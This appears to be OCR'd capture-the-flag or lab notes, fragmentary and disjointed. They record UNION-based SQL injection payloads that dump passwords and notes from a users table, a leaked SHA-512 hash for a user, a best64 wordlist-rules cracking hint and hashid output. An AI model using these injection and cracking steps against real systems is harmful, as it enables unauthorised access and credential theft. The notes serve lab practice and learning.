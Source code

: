   ```sql
  columns
  
  name
  password
  admin 
  notes
  
  user='union select null,null,null,password from users;-- -
  
  "The password for None is incorrect! 01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0"}
  
  user='union select null,null,name,notes from users;-- -
  
  user='union select null,null,null,group_concat(notes) from users;-- -
  ```
  
[[group_concat]] 
 
My linux username is my first name, and password uses best64, contact administrator. 
  

  Aaliyah Allen
  user None ? 
  
  --wordlist --rules --rules-stack=_best64_
  
  Aaliyah:01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
  
  
  best64
  
  
  
  from samba other user Harry
  
```


```ssh
  ──(kali㉿kali)-[~]
└─$ hashid -m -j 
01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0
Analyzing '01529ec5cb2c6b0300ed8f4f3df6b282c1a68c45ff97c33d52007573774014d3f01a293a06b1f0f3eb6e90994cb2a7528d345a266203ef4cd3d9434a3a033ec0'
[+] SHA-512 [Hashcat Mode: 1700][JtR Format: raw-sha512]
[+] Whirlpool [Hashcat Mode: 6100][JtR Format: whirlpool]
[+] Salsa10 
[+] Salsa20 
[+] SHA3-512 [JtR Format: raw-keccak]
[+] Skein-512 [JtR Format: skein-512]
[+] Skein-1024(512) 
  
```
